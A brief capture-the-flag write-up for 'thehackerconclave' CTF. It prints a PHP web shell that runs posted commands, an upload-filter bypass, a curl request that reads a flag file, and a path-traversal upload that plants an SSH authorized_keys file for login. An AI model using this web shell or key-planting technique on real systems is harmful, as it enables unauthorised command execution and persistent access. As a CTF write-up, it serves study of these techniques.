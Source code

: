 ```yaml
---
created: 2024-06-27T07:05
updated: 2024-07-01T20:09
tags:
  - box
---
```


# thehackerconclave

**#6** 1500 points.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1719878953/2024/07/31175b24ee1a86c7d293bab9d120ee88.png)

3 hour CTF with a bunch of typos and mis-management.

Joined [@WorldWideFlags](https://ctftime.org/team/283853) on this one.

## Bad Upload

### Payload

```php
<?php
echo 'Command:';
if($_POST){
system($_POST['cmd']);
}
__halt_compiler();
?>
```

Simply edit the HTML markup, and replace one of the option values with `php`.

```shell
curl --request POST \
  --url http://ctf.thehackerconclave.es:20003/documents/payload.php \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --data 'cmd=cat /flag/flag.txt'
```

## Backup server

### Generate Key

```sh
ssh-keygen
```

### Rename public key to `authorized_keys` and upload to `.ssh/`

```curl
curl --request POST \
  --url http://ctf.thehackerconclave.es:20007/index.php \
  --header 'Content-Type: multipart/form-data' \
  --form 'file=@authorized_keys' \
  --form directory=../.ssh
```

### Connect to it with private key

```shell
 ssh -i sshkey user1@ctf.thehackerconclave.es -p 20008
```
